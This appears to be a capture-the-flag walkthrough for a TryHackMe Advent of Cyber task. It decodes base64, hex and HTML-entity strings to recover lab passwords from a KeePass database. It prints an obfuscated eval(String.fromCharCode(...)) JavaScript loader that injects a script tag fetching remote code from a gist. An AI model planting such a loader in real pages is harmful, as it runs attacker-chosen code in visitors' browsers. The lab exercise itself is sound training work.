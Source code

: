 # Advent of Cyber 2 - Day 22

## Steps

### Getting into Password manager
We can use the folder name of `dGhlZ3JpbmNod2FzaGVyZQ==` and convert it using a Base 64 convertor to get `thegrinchwashere`. This is the password for KeePass. The encoding method is `base64`.

### Decoding passwords in KeePass
Network > Elf Server > `elfadmin` -> `736e30774d346e21`. If we use a hex decryption on the password we get an output of `sn0wM4n!` which is the password.

eMail > ElfMail > `mceager` ->  `&#105;&#99;&#51;&#83;&#107;&#97;&#116;&#105;&#110;&#103;&excl;`. If we use a HTML decryption on the password we get an output of `ic3Skating!` which is the password.

Recycle Bin > Elf Security System > superelfadmin -> `eval(String.fromCharCode(118, 97, 114, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 116, 121, 112, 101, 32, 61, 32, 39, 116, 101, 120, 116, 47, 106, 97, 118, 97, 115, 99, 114, 105, 112, 116, 39, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 97, 115, 121, 110, 99, 32, 61, 32, 116, 114, 117, 101, 59, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 115, 114, 99, 32, 61, 32, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 49, 48, 52, 44, 32, 49, 48, 52, 44, 32, 49, 49, 54, 44, 32, 49, 49, 54, 44, 32, 49, 49, 50, 44, 32, 49, 49, 53, 44, 32, 53, 56, 44, 32, 52, 55, 44, 32, 52, 55, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 53, 44, 32, 49, 49, 54, 44, 32, 52, 54, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 54, 44, 32, 49, 48, 52, 44, 32, 49, 49, 55, 44, 32, 57, 56, 44, 32, 52, 54, 44, 32, 57, 57, 44, 32, 49, 49, 49, 44, 32, 49, 48, 57, 44, 32, 52, 55, 44, 32, 49, 48, 52, 44, 32, 49, 48, 49, 44, 32, 57, 55, 44, 32, 49, 49, 56, 44, 32, 49, 48, 49, 44, 32, 49, 49, 48, 44, 32, 49, 49, 52, 44, 32, 57, 55, 44, 32, 49, 48, 53, 44, 32, 49, 50, 50, 44, 32, 57, 55, 44, 32, 52, 55, 41, 59, 32, 32, 32, 118, 97, 114, 32, 97, 108, 108, 115, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 118, 97, 114, 32, 110, 116, 51, 32, 61, 32, 116, 114, 117, 101, 59, 32, 102, 111, 114, 32, 40, 32, 118, 97, 114, 32, 105, 32, 61, 32, 97, 108, 108, 115, 46, 108, 101, 110, 103, 116, 104, 59, 32, 105, 45, 45, 59, 41, 32, 123, 32, 105, 102, 32, 40, 97, 108, 108, 115, 91, 105, 93, 46, 115, 114, 99, 46, 105, 110, 100, 101, 120, 79, 102, 40, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 52, 57, 44, 32, 52, 57, 44, 32, 49, 48, 48, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 52, 57, 44, 32, 53, 48, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 57, 57, 44, 32, 53, 50, 44, 32, 49, 48, 48, 44, 32, 53, 52, 44, 32, 53, 52, 44, 32, 53, 53, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 53, 52, 44, 32, 49, 48, 48, 44, 32, 57, 56, 44, 32, 49, 48, 50, 44, 32, 49, 48, 48, 44, 32, 53, 55, 44, 32, 57, 55, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 53, 55, 44, 32, 53, 54, 44, 32, 57, 55, 44, 32, 53, 54, 44, 32, 53, 54, 44, 32, 57, 56, 44, 32, 53, 54, 41, 41, 32, 62, 32, 45, 49, 41, 32, 123, 32, 110, 116, 51, 32, 61, 32, 102, 97, 108, 115, 101, 59, 125, 32, 125, 32, 105, 102, 40, 110, 116, 51, 32, 61, 61, 32, 116, 114, 117, 101, 41, 123, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 34, 104, 101, 97, 100, 34, 41, 91, 48, 93, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 41, 59, 32, 125));`. The password field gives us nothing, but the note section gives us the above. If we run two charcode conversions in Base 10 with a delimiter of a comma we get an output of `.https://gist.github.com/heavenraiza/1d321244c4d667446dbfd9a3298a88b8` and we can simply open up the gist and get the flag of `THM{657012dcf3d1318dca0ed864f0e70535}`.